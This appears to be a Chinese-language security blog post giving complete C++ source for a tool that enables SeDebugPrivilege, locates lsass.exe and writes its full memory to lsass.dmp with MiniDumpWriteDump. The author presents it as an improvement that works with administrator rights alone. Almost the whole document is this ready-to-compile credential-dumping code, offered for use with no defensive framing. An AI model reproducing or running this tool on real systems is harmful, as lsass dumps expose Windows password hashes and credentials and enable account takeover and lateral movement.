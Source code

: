 利用MiniDumpWriteDump来dump lsass已经不是一个老的技术了，但是根据网上的实例，我发现了一些问题，网上绝大多数部分，均是使用了OpenProcess 这个Win API打开进程，从而获取lsass.exe的进程句柄，但是根据自己的尝试，发现，在没有debug权限的情况下，OpenProcess会抛出5的错误，及权限不足以打开lsass.exe进程。至此，我将代码进行了完善，使其程序能只在管理员权限下即可dump lsass.exe内存
```
#include <windows.h>
#include <iostream>
//  MiniDumpWriteDump需要
#include <dbghelp.h>
#include <TlHelp32.h>
#pragma comment(lib,"Dbghelp.lib")
using namespace std;
// 进行特权提升
BOOL EnableDebugPrivilege() {
	// 创建令牌句柄
	HANDLE HandleToken = NULL;
	BOOL FOK = FALSE;
	// 打开当前进程的令牌，其中TOKEN_ADJUST_PRIVILEGES为启用或禁止令牌中的权限所必须，HandleToken为返回的句柄
	if (OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &HandleToken)) {
		// 获取成功之后，执行debug权限提升
		TOKEN_PRIVILEGES TP; //创建令牌信息结构体
		TP.PrivilegeCount = 1; //设置privilege数组中条目数
		//检索本地唯一性标识符的特定LUID
		LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &TP.Privileges[0].Luid); //检索特权标识符所指定的特权名称，其中SE_DEBUG_NAME 为调试和调整另一个帐户拥有的进程的内存所必需。

		TP.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; //启用特权
		//启用访问的特权令牌
		AdjustTokenPrivileges(HandleToken, FALSE, &TP, sizeof(TP), NULL, NULL);
		//捕捉错误，为ERROR_SUCCESS则特权提升成功
		FOK = (GetLastError() == ERROR_SUCCESS);
		CloseHandle(HandleToken);
	}
	return FOK;
}

int main() {
	// 创建一个文件句柄，用户写入dump下来的数据,其中GENERIC_ALL为获取所有可能的权限
	HANDLE dumpFile = CreateFile(L"lsass.dmp", GENERIC_ALL, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	// 定义一个控进程句柄
	HANDLE ProcessHandle = NULL;
	//定义当前进程的PID
	DWORD ProcessPID = 0;
	//定义当前的进程名称
	LPCWSTR  ProcessName = L"";
	// 先便利所有进程，查询到所需要dump的进程PID
	HANDLE Snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0); // 给系统内的所有进程拍摄快照
	// 创建PROCESSENTRY32结构体,里面包含着进程的信息，如进程名称等
	PROCESSENTRY32 processEntry = {};
	processEntry.dwSize = sizeof(PROCESSENTRY32);
	// 如果获取到第一个进程信息的话，执行后续内容 
	if (Process32First(Snapshot, &processEntry)) {
		//成功获取第一个进程信息，执行while循环，知道找到要dump的指定进程
		//_wcsicmp 比较二者是否相同，如果相同则返回0，否则返回大于或小于0的数字
		while (_wcsicmp(ProcessName, L"lsass.exe") != 0) {
			// 检索下一个进程的全部信息
			if (Process32Next(Snapshot, &processEntry)) {
				//检索成功，返回true，执行if内操作
				ProcessName = processEntry.szExeFile; // PROCESSENTRY32结构体，szExeFile为进程名称
				ProcessPID = processEntry.th32ProcessID; // PROCESSNTRY32结构体，th32ProcessID为进程PID
			}
			else {
				cout << "[-] Process32Next Failed !   ProcessName :" << ProcessName << endl;
			}
		}
		cout << "[+] Get Process: " << ProcessName << " PID : " << ProcessPID << endl;
	}
	//打开进程权限，气筒Debug
	if (EnableDebugPrivilege()) {
		// 打开该进程，获取该进程句柄，PROCESS_ALL_ACCESS 为获取所有的可能权限
		ProcessHandle = OpenProcess(PROCESS_ALL_ACCESS, 0, ProcessPID);
		//cout << GetLastError() << endl;
		//执行dump内存操作,MiniDumpwithFullMemory为dump最大权限的内容
		BOOL dump_status = MiniDumpWriteDump(ProcessHandle, ProcessPID, dumpFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
		if (dump_status) {
			cout << "[+] dump success, file name is lsass.dmp !";
		}
		else {
			cout << "[-] dump Failed !";
		}
		return 0;
		//关闭进程句柄
		CloseHandle(ProcessHandle);
	}
	else {
		cout << "[-] PrivilegeToken is Failed";
	}
}
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12423555/1615551704730-712a3cc8-c2a2-4f34-8339-e8f26e4461d3.png#align=left&display=inline&height=143&margin=%5Bobject%20Object%5D&name=image.png&originHeight=190&originWidth=764&size=19149&status=done&style=none&width=573)
